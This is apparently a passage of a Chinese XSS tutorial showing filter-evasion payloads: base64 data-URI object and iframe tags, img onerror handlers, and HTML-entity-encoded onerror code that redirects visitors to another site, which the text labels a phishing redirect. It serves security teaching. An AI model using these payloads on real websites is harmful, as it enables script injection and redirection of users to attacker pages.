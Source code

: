 ```html
<object data="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</object> 
<!--
<script>alert(1)</script> 旧版新版火狐及chrome支持
<img src=x οnerrοr=alert(1)> 旧版新版火狐都不知此后，chrome支持
-->

<!--标签三-->
<iframe src="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</iframe>
<!--
<script>alert(1)</script> 旧版新版火狐及chrome支持
<img src=x οnerrοr=alert(1)> 新版火狐支持，chrome新版支持旧版不支持
-->
</body>
</html>
123456789101112131415161718192021222324
```

**标签解析原理**
![在这里插入图片描述](73、XSS跨站脚本攻击/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201114100106713.png)

### 2、HTML实体编码(十进制和十六进制)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806113926584.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](73、XSS跨站脚本攻击/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201114100106781.png)
[十进制编码](https://tool.oschina.net/encode)

```html
<img src=1 onerror="window.location='https://www.baidu.com'"> <!--钓鱼 跳转页面-->
	
<img src=1 onerror="&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;'https://www.baidu.com'">

<img src=1 onerror="&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#119;&#119;&#46;&#98;&#97;&#105;&#100;&#117;&#46;&#99;&#111;&#109;&#39;">
12345
```
